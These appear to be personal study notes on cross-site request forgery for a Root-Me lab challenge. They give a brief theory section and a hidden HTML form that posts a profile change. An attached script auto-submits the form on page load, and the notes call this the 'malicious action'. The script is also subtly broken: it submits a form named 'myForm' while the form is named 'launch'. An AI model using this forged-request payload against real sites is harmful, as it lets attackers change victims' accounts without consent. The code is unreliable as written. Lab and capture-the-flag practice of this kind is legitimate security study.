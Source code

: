 CSRF

## Theory

- When an attacker tricks a victim going to a page controlled by the attacker, which then submits data to the target site as the victim.
- Mitigation with CSRF tokens.
- Check, if they have csrf.js file that sends code like this : $csrf = session CSRF token. On each page, they had script src= csrf.js. So all you have to do was to include that same tag in your exploit.

## Practical part

Use jsfiddle.net to try your code.


- Use the actual form in html code 
for example : 
```
<form action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="post" enctype="multipart/form-data" name="launch">
	<input type="hidden" name="username" value="bloblo" >
	<input type="hidden" name="status" >
<button type="submit">Submit</button>
</form>
```

- Modify the values you need and add the end of this code to do auto execute your malicious action

```
<form action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="post" enctype="multipart/form-data" name="launch">
	<input type="hidden" name="username" value="bloblo" >
	<input type="hidden" name="status" value="on" >
<button type="submit">Submit</button>
</form>
<script type="text/javascript">
    window.onload=function(){
        var auto = setTimeout(function(){ autoRefresh(); }, 100);
        function submitform(){
          alert('test');
          document.forms["myForm"].submit();
        }

        function autoRefresh(){
           clearTimeout(auto);
           auto = setTimeout(function(){ submitform(); autoRefresh(); }, 10000);
        }
    }
</script>

```
